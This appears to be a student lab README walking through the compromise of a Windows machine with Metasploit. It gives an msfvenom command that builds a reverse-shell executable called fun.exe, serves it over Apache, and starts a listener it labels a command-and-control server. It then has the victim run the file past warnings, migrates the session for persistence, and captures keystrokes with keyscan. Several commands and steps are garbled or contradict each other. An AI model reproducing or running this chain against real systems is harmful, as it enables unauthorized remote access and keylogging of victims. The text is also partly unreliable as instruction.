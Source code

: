 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-11 133658](https://github.com/user-attachments/assets/658da2f4-775c-4409-b48a-345d2ac28cf3)





Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-11 135227](https://github.com/user-attachments/assets/13af2382-dec9-4672-b901-dd5ef17480b7)






copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-11 134135](https://github.com/user-attachments/assets/97e189af-4c19-4ada-9a93-3b1b0797b6bf)




Start apache server
sudo systemctl apache2 start
![Screenshot 2025-04-11 134145](https://github.com/user-attachments/assets/d3ac1c1c-4359-4ca4-bd95-63f773f05424)



Check the status of apache2
![Screenshot 2025-04-11 135741](https://github.com/user-attachments/assets/4f6a5ea6-6a30-4af7-a50b-f47eb5bd891a)




Invoke msfconsole:
## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![432657290-ea384ca5-6c96-405e-9b45-b23f4e9fab41](https://github.com/user-attachments/assets/4b1dd1fc-a414-44ef-b3e6-a4dd8088dc8f)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-11 143456](https://github.com/user-attachments/assets/13891cfb-8376-4f44-9935-aca5faeb480b)



Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Screenshot 2025-04-21 111035](https://github.com/user-attachments/assets/98e55c6e-223e-49ff-a748-8fc3adf7feb4)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2025-04-21 111916](https://github.com/user-attachments/assets/7eb122c2-f1aa-4790-8aa5-d43102cbda63)


keyscan_dump	Shows the keystrokes captured so far

![Screenshot 2025-04-21 113024](https://github.com/user-attachments/assets/13054904-2055-4dd4-b79d-a91b3b5ca93c)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
